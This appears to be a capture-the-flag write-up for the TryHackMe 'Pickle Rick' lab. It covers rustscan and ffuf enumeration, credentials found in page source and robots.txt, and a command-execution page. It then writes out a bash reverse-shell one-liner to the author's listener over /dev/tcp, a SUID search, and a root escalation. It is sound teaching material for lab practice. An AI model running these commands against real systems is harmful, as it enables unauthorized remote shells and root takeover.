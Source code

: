 * * *
  ### PICKLERICK CTF
  Lab platform: THM
* * *

### Enumeration
-  Scanning with rust scan

         rustscan -a <ip>
   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/9a583d8e-d4c3-4336-8adf-99555949d27c)

- Fuzz for directories and files with ffuf which reveals a login.php and robots.txt file

       ffuf -u "http://10.10.92.53/FUZZ" -w "/usr/share/seclists/Discovery/Web-Content/big.txt"

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/871c3612-4d24-48aa-85dd-0f71d9bf64f8)

      ffuf -u "http://10.10.92.53/FUZZ" -w "/usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt" -e .php,.txt,.html -mc 200
  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/a433b0a4-337a-4980-b65e-78e8b816b1ea)


- Viewing the source of the source page reveals a username

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/b6c9a89d-9eed-4c82-8e93-e8ef4be40a94)

- The robot.txt file reveals a weird word

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/a634be9f-cbb6-45fd-9355-88500f0fbaa4)

- I logged in with the username and password <the weird word> which reveals a php page for shell commands execution

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/341db42e-b00e-4602-b9bb-1d0eee1c2484)

- Let's pop a bash rev shell from revshells.com "bash -c "bash -i >& /dev/tcp/10.18.31.164/9999 0>&1" and stablize the shell with pty py module

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/0fa49651-b720-406a-9ff8-fd01d0218ef6)

### Escalating privileges 

- Look for files with suid bit with this command

       find / -perm -u=s -type f 2</dev/null

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/165012d2-7b95-4341-81d6-1f569183ca1a)

- After multiple trial and error,I discovered with gtfoins that I can escalate privileges with su

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/b7d4942a-53d2-421d-be12-3c57a73b32c7)

- Root access achieved

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/124a90b0-e6c9-475e-91f1-9f2fce928d0a)

### Finding the potions

- The first ingredient is located in the "/var/ww/html" directory

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/0253ec42-8733-4dee-8d54-c21b4f5ed799)

- The second ingredient is located in RICK's home directory

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/54fe6041-5b56-4285-bf75-428782916b6b)

- The last ingredient is located in the root directory,challenge solved

    ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/fec592d4-7327-4efa-b615-ca3d1a7fe77f)


   
  
-

